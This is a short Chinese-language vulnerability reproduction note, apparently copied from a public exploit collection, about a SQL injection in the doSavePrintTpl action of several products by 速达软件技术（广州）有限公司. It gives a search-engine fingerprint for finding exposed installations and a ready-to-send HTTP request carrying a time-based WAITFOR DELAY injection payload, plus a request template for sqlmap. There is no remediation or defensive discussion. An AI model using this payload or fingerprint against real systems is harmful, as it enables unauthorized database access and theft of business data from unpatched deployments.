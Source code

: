 # 速达软件技术（广州）有限公司多款产品doSavePrintTpl存在SQL注入漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品doSavePrintTpl存在SQL注入漏洞

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/Si9C0gSG68Sdjyok/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-608754.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/Si9C0gSG68Sdjyok/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-495074.png)

# 四、漏洞复现
```plain
GET /common/print/print!doSavePrintTpl.action?report=1&rptid=1&employId=1&accsetName=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&modId=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=95EE3D005EFC17F6D1246339EA7617CB
Upgrade-Insecure-Requests: 1
```

![1705074370016-a37fced7-17fc-4b64-aab5-352671640d38.png](./img/Si9C0gSG68Sdjyok/1705074370016-a37fced7-17fc-4b64-aab5-352671640d38-736967.png)

sqlmap

```plain
GET /common/print/print!doSavePrintTpl.action?report=1&rptid=1&employId=1&accsetName=1&modId=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=95EE3D005EFC17F6D1246339EA7617CB
Upgrade-Insecure-Requests: 1
```

![1705074401317-a2a6a0cf-f844-4f08-83f7-8af83f6a4834.png](./img/Si9C0gSG68Sdjyok/1705074401317-a2a6a0cf-f844-4f08-83f7-8af83f6a4834-074768.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/giuash5tw64if5lo>